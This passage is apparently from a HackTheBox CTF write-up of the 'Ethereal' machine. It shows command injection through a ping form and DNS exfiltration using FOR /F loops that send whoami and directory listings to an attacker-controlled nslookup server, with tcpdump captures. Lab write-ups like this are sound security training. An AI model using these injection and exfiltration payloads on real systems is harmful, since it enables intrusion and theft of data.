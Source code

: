 ### Command injection using ping page

We can run commands by adding `&& <command>` in the command field.

We can validate we got RCE by pinging ourselves with `127.0.0.1 && ping 10.10.14.23`.

The first IP is implicitely pinged by the script followed by our injected command after &&:

```
root@darkisland:~/hackthebox/Machines/Ethereal# tcpdump -nni tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
14:30:51.029999 IP 10.10.10.106 > 10.10.14.23: ICMP echo request, id 1, seq 39, length 40
14:30:51.030129 IP 10.10.14.23 > 10.10.10.106: ICMP echo reply, id 1, seq 39, length 40
14:30:52.046783 IP 10.10.10.106 > 10.10.14.23: ICMP echo request, id 1, seq 40, length 40
14:30:52.046814 IP 10.10.14.23 > 10.10.10.106: ICMP echo reply, id 1, seq 40, length 40
```

We can't run any other commands like `certutil.exe` or `powershell.exe`, AppLocker is probably enabled on the box.

However we can exfil some data by using `nslookup`.

For example, using the payload `127.0.0.1 && nslookup inject 10.10.14.23`, we get can get the box to do a query back to us:

```
root@darkisland:~# tcpdump -nni tun0 -vv port 53
tcpdump: listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
20:20:16.625986 IP (tos 0x0, ttl 127, id 8724, offset 0, flags [none], proto UDP (17), length 70)
    10.10.10.106.52125 > 10.10.14.23.53: [udp sum ok] 1+ PTR? 23.14.10.10.in-addr.arpa. (42)
20:20:18.652075 IP (tos 0x0, ttl 127, id 8726, offset 0, flags [none], proto UDP (17), length 52)
    10.10.10.106.52126 > 10.10.14.23.53: [udp sum ok] 2+ A? inject. (24)
20:20:20.922359 IP (tos 0x0, ttl 127, id 8727, offset 0, flags [none], proto UDP (17), length 52)
    10.10.10.106.52127 > 10.10.14.23.53: [udp sum ok] 3+ AAAA? inject. (24)
```

What we want is to exfil the output of commands, by using the following payload we can start to output some stuff:

`FOR /F "tokens=1" %g IN 'whoami' do (nslookup %g 10.10.14.23)`

Output:

```
20:30:23.082437 IP (tos 0x0, ttl 127, id 8942, offset 0, flags [none], proto UDP (17), length 58)
    10.10.10.106.63713 > 10.10.14.23.53: [udp sum ok] 2+ A? etherealalan. (30)
```

Now, it's not perfect, we can't exfil special characters or anything else that is not a valid character in a DNS query. So in the query above, we can guess that the real output should be `ethereal\alan` instead of `etherealalan`.

So if we're listing directories, we have to use the /b flag so it only returns the name of the directory/file otherwise we'll need to play with the token parameter to indicate which item to read from the output.

Another example listing directories: `FOR /F "tokens=1" %g IN 'dir /b c:\users' do (nslookup %g 10.10.14.23)`
